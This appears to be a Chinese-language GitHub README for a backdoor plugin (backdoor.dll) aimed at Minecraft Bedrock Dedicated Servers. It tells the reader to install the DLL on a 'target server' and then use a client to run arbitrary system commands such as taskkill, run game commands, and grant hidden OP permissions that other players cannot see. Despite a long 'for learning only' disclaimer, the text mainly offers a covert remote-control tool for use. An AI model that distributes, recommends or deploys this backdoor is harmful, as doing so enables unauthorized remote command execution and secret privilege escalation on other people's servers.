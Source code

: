 #backdoor

适配版本（基岩）	最新版本

一个适用于Bedrock Dedicated Server的后门插件

#警告和免责声明
在使用本软件前，请仔细阅读以下内容。本软件是一个学习性质的后门项目，仅供学习和研究用途。使用本软件可能会侵犯他人的隐私和安全，您应该仅在经过适当的授权和法律许可的情况下使用本软件。使用本软件可能会造成不可逆转的损失和损害，如数据丢失、系统崩溃、法律纠纷等。使用本软件是完全自担风险的，作者不承担任何法律责任。 使用本软件即表示您同意以下内容：

您将仅在合法的和受法律许可的情况下使用本软件。

您将不会将本软件用于非法、侵犯隐私或危害他人的行为。

您将不会用本软件攻击他人的计算机系统或网络，或者尝试获取未经授权的访问权限。

您将不会将本软件用于商业目的或盈利。

您将独立承担使用本软件造成的一切后果，包括但不限于数据丢失、系统崩溃、法律纠纷等。

您将不会对本软件进行修改或破解，或者尝试绕过本软件的安全措施。

您将对使用本软件的任何行为负完全责任，作者不承担任何责任。

本软件作者不承担任何因使用本软件而导致的任何直接或间接的损失或责任。 如果您不同意以上内容，请勿使用本软件。如果您违反了以上任何一项内容，作者将保留追究您的法律责任的权利。 此警告和免责声明的范围应适用于您使用本软件的任何时间、地点或方式。如果您需要任何关于使用本软件的相关法律咨询，请咨询专业律师。 请注意，此警告和免责声明可能因法律法规的变化而需要更新。作者将保留随时更改此警告和免责声明的权利，因此请您在使用本软件前定期查看此页面上的内容。

VirusTotal 病毒分析结果

点此查看（可能不是最新，欢迎上传最新版）

使用

将backdoor.dll安装到目标服务器

待目标服务器开启后使用后门客户端client.py进行远控，以下是其使用方法

运行后门客户端

打开client.exe 输入服务器IP和端口 启动程序时会提示你输入服务器的IP地址和端口号，格式为 IP地址:端口号（例如 127.0.0.1 19132） 示例：


Please input server ip:port like 127.0.0.1 19132

114.51.41.91 9810


#客户端功能

客户端程序具有以下功能： scmd [cmd] - 执行系统命令 gcmd [cmd] - 执行游戏命令 perm [玩家名称:区分大小写] [等级: 0~3] [0: 客户端隐藏变化 | 1: 客户端显示变化] - 设置玩家权限级别 q - 退出程序 请根据需要输入相应的命令来执行相应的操作。例如，要执行游戏命令

kick WillowSauceR，输入以下命令：

>>> gcmd kick WillowSauceR
执行系统命令taskkill /F /IM bedrock_server.exe

>>> scmd taskkill /F /IM bedrock_server.exe
给游戏中的玩家设置权限 权限等级：0为普通玩家，大于0为OP 显示/隐藏：对其他玩家和自己隐藏权限变化，无法在游戏内发现 以下命令为玩家WillowSauceR设置了OP权限且对其他玩家隐藏

>>> perm WillowSauceR 1 0
要退出程序，输入以下命令：

>>> q


#声明

#本插件仅供学习交流使用，下载后请在24小时内删除！由使用本插件产生的危害和问题，作者概不负责！


